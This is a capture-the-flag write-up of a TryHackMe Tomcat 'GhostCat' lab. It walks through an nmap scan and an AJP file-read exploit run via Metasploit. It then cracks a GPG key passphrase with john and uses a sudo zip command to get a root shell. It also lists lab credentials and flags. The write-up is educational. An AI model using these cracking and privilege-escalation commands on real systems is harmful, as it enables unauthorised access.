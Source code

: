 ```yaml
---
sticker: emoji//1f47b
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE    |
| :--- | :--------- |
| 22   | ssh        |
| 53   | tcpwrapped |
| 8009 | ajp13      |
| 8080 | http       |

```
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack
8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack Apache Tomcat 9.0.30
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



# RECONNAISSANCE
---

From the scan, we can check that we're dealing with `apache tomcat 9.0.30`, we can look up for vulnerabilities regarding this version:


![](Pasted image 20250331134324.png)

![](Pasted image 20250331134331.png)


We can look up this in `metasploit`:

![](Pasted image 20250331134514.png)

Let's test if it works:

![](Pasted image 20250331134552.png)

It works, let's proceed with exploitation.


# EXPLOITATION
---

Since we were able to read the `/WEB-INF/web.xml` file, we noticed it came with some credentials, we can access `ssh` with them:


```
skyfuck:8730281lkjlkjdqlksalks
```



![](Pasted image 20250331135832.png)

Let's begin privesc.


# PRIVILEGE ESCALATION
---


If we check `skyfuck` home, we can find this:

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

We got some encrypted credentials, but to our luck we also got the `.asc` private file to decrypt, let's do it:

![](Pasted image 20250331140554.png)

If we try importing it, we notice we need a passphrase, let's use `gpg2john` to get it:

```
gpg2john tryhackme.asc > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

We get this:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "gpg", but the string is also recognized as "gpg-opencl"
Use the "--format=gpg-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2025-03-31 19:06) 16.66g/s 17866p/s 17866c/s 17866C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Passphrase is `alexandru`, let's check the credentials now:

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

We get this:

```
gpg --decrypt credential.pgp
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We got the credentials for another user: `merlin`, let's go into ssh:

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We can now read `user.txt`:

```
merlin@ubuntu:~$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```


We can check our privileges:

```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

We got root permissions on `/usr/bin/zip`, let's check it on `gtfobins`

![](Pasted image 20250331141148.png)

We can do the following in order to get an interactive shell as root:

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh -c "sh <&2 1>&2"'
```

![](Pasted image 20250331141357.png)

We can now read `root.txt`:

```
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```

![](Pasted image 20250331141444.png)

